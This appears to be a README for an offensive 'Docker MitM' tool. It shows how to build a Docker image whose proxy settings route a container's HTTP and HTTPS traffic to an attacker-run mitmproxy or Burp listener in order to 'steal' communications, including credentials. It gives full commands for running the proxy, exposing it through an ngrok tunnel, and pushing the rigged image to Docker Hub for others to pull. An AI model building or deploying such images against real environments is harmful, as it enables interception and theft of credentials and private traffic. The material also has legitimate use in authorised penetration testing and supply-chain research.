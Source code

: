 # Docker MitM

This is a container prepared with env variables to **proxy HTTP traffic from the container to your burp proxy** to steal the communication occurring inside of it (potentially credentials).

This is useful in environments where:

1. You can configure the Docker image to use
2. Some interesting connections are created from the container and you want to check them

This Docker image is public in **docker.io/carlospolop/docker-mitm:v6** (This would be useless for you as your proxy ad cert will be different).

### Start MitM proxy

```bash
# Install proxy
pip3 install mitmproxy

# Get CA certificate
cat ~/.mitmproxy/mitmproxy-ca-cert.pem

# Start listening
mitmproxy --listen-port 8000 --set block_global=false [--allow-hosts "github.com"] [--ignore-hosts "169.254.169.254|169.254.170.2|amazonaws.com"]
```

### Create Docker image

**REMEMBER TO SET THE MITMPROXY CERTIFICATE & CHANGE THE VALUES OF `https_proxy` and `http_proxy` in the `Dockerfile` with the hostname and port where the proxy will be listening**

**Important**: It's possible that the binary you are doing a MitM has certificate pinning. This will probably break the binary and won't allow you to continue capturing other requests. In that case use the params `--allow-hosts` (if you know which host you want to attack) or `--ignore-hosts` to ignore the one giving problems.

**Important2**: If are using this in cloud, it might be possible that HTTP requests are being done to the metadata service. In that case you potentially DON'T want to set the `http_proxy` environment variable, to avoid doing a MitM to those requests (or maybe you could just use `--ignore-hosts`).



```bash
# Get ngrok address
ngrok tcp 8000 #You could use this adderss as proxy in the env variables

# Build (for change your dockerhub username)
docker build -t docker-mitm .
docker tag docker-mitm carlospolop/docker-mitm:v5
docker push carlospolop/docker-mitm:v5

# Just running apt-get update you should start capturing traffic
docker run -it docker-mitm apt-get update
# Or accessing github.com via https
docker run -it docker-mitm curl https://github.com

# Upload to docker hub 
docker login
docker tag docker-mitm carlospolop/docker-mitm:vX # Change X
docker push carlospolop/docker-mitm:vX # Change X
```
